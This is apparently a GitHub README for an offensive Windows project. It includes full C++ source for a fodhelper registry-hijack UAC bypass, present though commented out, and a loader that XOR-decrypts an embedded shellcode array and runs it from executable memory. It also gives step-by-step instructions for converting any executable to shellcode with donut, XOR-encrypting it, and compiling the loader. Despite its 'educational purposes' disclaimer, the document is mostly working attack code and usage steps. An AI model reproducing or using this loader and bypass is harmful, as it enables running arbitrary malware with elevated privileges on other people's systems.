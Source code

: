 # L3582-490DER Project

## Overview
This project contains two main components: a C++ UAC bypass demonstration and a Python shellcode encryption utility. **This is for educational purposes only** and was developed by ABOLHB to explore Windows API concepts and security mechanisms.

## ⚠️ DISCLAIMER
**I, 3582-490, created this code solely for educational and research purposes. I do not endorse, encourage, or take responsibility for any misuse of this code. Unauthorized use of these techniques against systems you don't own is illegal and unethical. Use this knowledge responsibly and only in environments where you have explicit permission.**

## Project Structure

### 1. L3582-490DER.cpp
This C++ code demonstrates various Windows API concepts including potential UAC bypass techniques (commented out for safety).

#### Code Explanation:
```cpp
// UAC bypass technique using fodhelper (commented out for safety)
/*
void mason__xa() {
    // Creates registry entries to hijack the fodhelper.exe UAC bypass
    HKEY mason__xb;
    wchar_t mason__xc[MAX_PATH];
    GetModuleFileNameW(NULL, mason__xc, MAX_PATH);
    RegCreateKeyExW(HKEY_CURRENT_USER,
        L"Software\\Classes\\ms-settings\\shell\\open\\command",
        0, NULL, 0, KEY_WRITE, NULL, &mason__xb, NULL);
    RegSetValueExW(mason__xb, L"", 0, REG_SZ, (BYTE*)mason__xc, (wcslen(mason__xc) + 1) * sizeof(wchar_t));
    RegSetValueExW(mason__xb, L"DelegateExecute", 0, REG_SZ, (BYTE*)L"", sizeof(wchar_t));
    ShellExecuteW(NULL, L"open", L"fodhelper.exe", NULL, NULL, SW_HIDE);
    Sleep(3000);
    RegDeleteTreeW(HKEY_CURRENT_USER, L"Software\\Classes\\ms-settings");
}

// Function to check if the current process has admin privileges
bool mason__xg() {
    BOOL mason__xh = FALSE;
    SID_IDENTIFIER_AUTHORITY mason__xi = SECURITY_NT_AUTHORITY;
    PSID mason__xj;

    if (AllocateAndInitializeSid(&mason__xi, 2, SECURITY_BUILTIN_DOMAIN_RID,
        DOMAIN_ALIAS_RID_ADMINS, 0, 0, 0, 0, 0, 0, &mason__xj)) {
        CheckTokenMembership(NULL, mason__xj, &mason__xh);
        FreeSid(mason__xj);
    }
    return mason__xh; 
}
*/

// Main function demonstrating XOR decryption and execution
int WINAPI WinMain(HINSTANCE mason__xk, HINSTANCE mason__xl, LPSTR mason__xm, int mason__xn) {
    // The commented section would check for admin privileges and attempt UAC bypass if not admin
    // if (!mason__xg()) {
    //    mason__xa();
    //    return 0;
    // }
    
    std::string mason__xd;
    unsigned char mason__xe[] = { 0x42, 0x6A, 0x75, 0xAA, 0xAA, 0x6A, 0x75, 0xAA }; // Encrypted shellcode with XOR
    unsigned char mason__xf = 0xAA; // XOR key
    
    // Decrypt the shellcode using XOR
    for (int mason__xi = 0; mason__xi < sizeof(mason__xe); ++mason__xi) {
        mason__xe[mason__xi] ^= mason__xf;
    }
    
    // Allocate executable memory and execute the decrypted shellcode
    void* mason__xj = VirtualAlloc(0, sizeof(mason__xe), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(mason__xj, mason__xe, sizeof(mason__xe));
    ((void(*)())mason__xj)();
    
    return 0;
}
```

### 2. ShellCodeXOR.py
This Python utility encrypts binary files (like shellcode) using XOR encryption for use in the C++ program.

#### Features:
- XOR encryption with customizable key (default 0xAA)
- Converts encrypted data to C-style array format
- Handles file input with validation
- Generates output ready for use in C++ programs

## How to Use

### Prerequisites
1. Download [donut](https://github.com/TheWover/donut/releases/download/v1.1/donut_v1.1.zip) to generate shellcode from executables
2. Python 3.x installed for the encryption script

### Step-by-Step Process

1. **Generate shellcode from an executable using donut:**
   ```
   donut.exe -i your_file.exe -o output.bin
   ```

2. **Encrypt the shellcode using the Python utility:**
   ```
   python ShellCodeXOR.py
   ```
   Follow the prompts to select your .bin file

3. **Replace the encrypted array in the C++ code:**
   - Copy the output from output.txt
   - Replace the `mason__xe` array in L3582-490DER.cpp with your encrypted shellcode

4. **Compile the C++ code:**
   - Use a C++ compiler like MinGW or Visual Studio
   - Ensure you link against the necessary libraries (Windows.h, etc.)

## Technical Details

### XOR Encryption
The project uses a simple XOR cipher with a single-byte key (0xAA) for demonstration purposes. In real-world scenarios, more robust encryption should be used.

### Memory Execution
The code uses `VirtualAlloc` with `PAGE_EXECUTE_READWRITE` permissions to allocate memory that can execute code. This technique is commonly monitored by security software.

### UAC Bypass (Commented Out)
The commented UAC bypass technique exploits the fodhelper.exe mechanism by creating specific registry entries. This technique is well-documented and likely detected by modern security solutions.

## Legal and Ethical Considerations

This code is provided for educational purposes only. Before using any of these techniques:

1. Ensure you have explicit written permission to test on the target system
2. Understand that these techniques may violate terms of service
3. Be aware that many of these methods are detected by modern security solutions
4. Never use this knowledge to harm others or disrupt systems

## About the Author

I'm 3582-490, a security enthusiast interested in understanding Windows internals and security mechanisms. I believe that understanding how systems can be exploited is essential to defending them effectively.

## License

This project is provided for educational purposes only. No license is granted for commercial use or redistribution.
